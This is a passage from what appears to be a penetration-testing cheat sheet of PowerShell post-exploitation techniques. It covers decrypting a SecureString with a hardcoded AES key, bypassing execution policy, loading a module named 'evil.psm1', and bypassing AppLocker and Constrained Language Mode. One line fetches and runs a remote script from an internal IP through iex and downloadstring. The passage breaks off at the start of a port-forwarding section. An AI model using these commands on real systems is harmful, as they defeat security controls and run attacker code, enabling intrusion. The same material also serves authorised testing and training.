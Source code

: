 ### Decipher Secure-String

With the corresponding AES key

```powershell
$aesKey = (49, 222, 253, 86, 26, 137, 92, 43, 29, 200, 17, 203, 88, 97, 39, 38, 60, 119, 46, 44, 219, 179, 13, 194, 191, 199, 78, 10, 4, 40, 87, 159)
$secureObject = ConvertTo-SecureString -String "76492d11167[SNIP]MwA4AGEAYwA1AGMAZgA=" -Key $aesKey
$decrypted = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secureObject)
$decrypted = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($decrypted)
$decrypted
```

### Bypass execution policy

```powershell
#By spawning a new PowerShell session in the current one
powershell -nop -exec bypass

#By disabling the execution policy in the registry
Set-ExecutionPolicy -ExecutionPolicy bypass -Scope LocalMachine -Force

#Load a PowerShell module without confirmation prompt
Import-Module ./evil.psm1 -Force
```

### Execution context / AppLocker

#### AppLocker

```powershell
#Get AppLocker policy
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

By default, `C:\Windows` is not blocked, and `C:\Windows\Tasks` is writeable by any users.

#### Bypass Constrained Language Mode

Import `BypassCLM.exe` and `Mono.Options.dll` in a directory where the AppLocker policy authorize the execution, then

```powershell
#Get language mode
$ExecutionContext.SessionState.LanguageMode
#To bypass with PowerShell 6
pwsh

.\BypassCLM.exe -c "iex (new-object net.webclient).downloadstring('http://192.168.50.44/Invoke-HelloWorld.ps1')"
```

### Port forwarding

We can contact a machine, and this one can contact another machine, but we can't contact the second machine directly from our primary machine\
On the "central" machine, all the hit on the port 80 or 4545 will be forward to the `connectaddress` on the specified port :
